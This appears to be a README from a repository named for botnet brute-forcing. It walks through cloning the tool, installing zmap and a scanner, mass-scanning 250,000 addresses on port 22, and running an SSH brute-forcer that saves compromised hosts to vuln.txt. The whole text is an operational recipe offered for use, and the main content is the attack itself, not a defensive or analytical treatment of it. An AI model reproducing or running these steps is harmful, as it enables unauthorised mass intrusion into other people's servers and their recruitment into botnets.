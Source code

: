 

  (CentOS 6.9)

 
- git clone https://github.com/YourAnonXelj/B0tN3tBrut3.git



   1. sh ScannerInstall.sh         //-// if it asks for [Yes] press enter
                                  //-// if it asks for [autodetect] press enter


  
    2. sh CentOS_zmap_auto_install.sh

 


    3. chmod 777 * 

    4. zmap -p22 -o mfu.txt -N 250000     //-// not mfu2.txt or mfulol.txt dont change

         5.   ./sshbrute 2500 

         Result = vuln.txt

<img src="https://raw.githubusercontent.com/YourAnonXelj/B0tN3tBrut3/master/lul2.png">
